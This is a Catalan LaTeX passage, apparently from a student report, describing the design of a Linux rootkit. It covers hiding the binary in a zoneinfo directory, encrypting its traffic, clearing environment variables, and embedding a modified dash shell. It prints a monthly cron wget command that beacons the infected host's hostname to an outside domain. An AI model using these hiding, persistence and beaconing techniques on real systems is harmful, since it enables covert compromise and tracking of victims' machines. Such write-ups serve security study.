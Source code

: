 \begin{enumerate}
\item Localització física del fitxer. \\
Per tal que el fitxer estigui força amagat, s'ha  buscat un path al sistema on rarament s'hi accedeixi. El
path escollit per defecte és /usr/share/zoneinfo/posix/America/Indiana/. / i és possible canviar-lo en 
les opcions de compilació.
\item Comunicació xifrada. \\
Un altre mètode d'ocultació és el fet de xifrar tot el trànsit que passa per la xarxa, de tal manera que ningú pogués veure de forma accidental o 
intencionada, que és el què està viatjant per la xarxa.
\item Eliminació de les variables d'entorn. \\
Al ser executat, el launcher elimina tota variable d'entorn per tal que no es pugui tenir cap pista de què és el procés.
\end{enumerate} 

 
\subsection{Heard beat}
Per implementar el heard beat, s'han utilitzat les tasques programades de periodicitat mensual. En l'script
.monthly, s'ha afegit la comanda de la figura XXX

\begin{Verbatim}[commandchars=@\[\]]
wget -q hostru.mine.nu/index.php?h@PYbe[=]@PYay[$(]hostname@PYay[)]
\end{Verbatim}

Aquesta comanda, s'executarà mensualment, i realitzarà una petició contra una pàgina web, allotjada en un
servidor gratuït. Al realitzar la petició, aquesta quedarà contabilitzada juntament amb el hostname i la ip
on es troba el rootkit.

\subsection{Independència de la shell}
Per a aconseguir que el rootkit no depengui de quina shell té instal·lada el sistema on s'està executant, 
s'ha modificat la shell dash\footnote{shell basada en ash, reescrita per debian. Té la peculiaritat de ser
una shell a l'estil sh, però d'un tamany molt reduit} per a poder-se afegir dintre el rootkit. \\

En el moment en què es compila el rootkit, aquest ens demana si volem incloure una shell dintre seu, i en
cas de voler, incorpora el codi basat en dash. Com sempre aquest codi també es estàtic i compilat utilitzant
la llibreria dietlibc. \\

